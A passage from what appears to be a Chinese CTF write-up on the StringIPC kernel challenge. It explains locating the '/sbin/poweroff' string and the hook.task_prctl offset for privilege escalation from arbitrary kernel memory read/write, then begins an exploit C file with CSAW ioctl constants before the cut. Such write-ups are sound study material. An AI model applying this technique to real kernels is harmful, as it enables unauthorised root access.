 搜索/sbin/poweroff 字符串：

![](../image/2020-01-14-Stringipc-从内存任意读写到权限提升/3.jpg)

查找引用该字符串的地方：

![](../image/2020-01-14-Stringipc-从内存任意读写到权限提升/4.jpg)

只有一处调用：

![](../image/2020-01-14-Stringipc-从内存任意读写到权限提升/5.jpg)

现在的问题是如何找到hook.task_prctl在.data节上的偏移，看出题人的思路是可以通过调用prctl后动态调试中得到，但是题目给的bzImage不带调试信息，如何下断点，不知道有什么简单的方法可以得到。

#### Exp

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/ioctl.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/auxv.h>
#include <sys/prctl.h>

#define CSAW_IOCTL_BASE     0x77617363
#define CSAW_ALLOC_CHANNEL  CSAW_IOCTL_BASE+1
#define CSAW_OPEN_CHANNEL   CSAW_IOCTL_BASE+2
#define CSAW_GROW_CHANNEL   CSAW_IOCTL_BASE+3
#define CSAW_SHRINK_CHANNEL CSAW_IOCTL_BASE+4
#define CSAW_READ_CHANNEL   CSAW_IOCTL_BASE+5
#define CSAW_WRITE_CHANNEL  CSAW_IOCTL_BASE+6
#define CSAW_SEEK_CHANNEL   CSAW_IOCTL_BASE+7
#define CSAW_CLOSE_CHANNEL  CSAW_IOCTL_BASE+8

struct alloc_channel_args{
```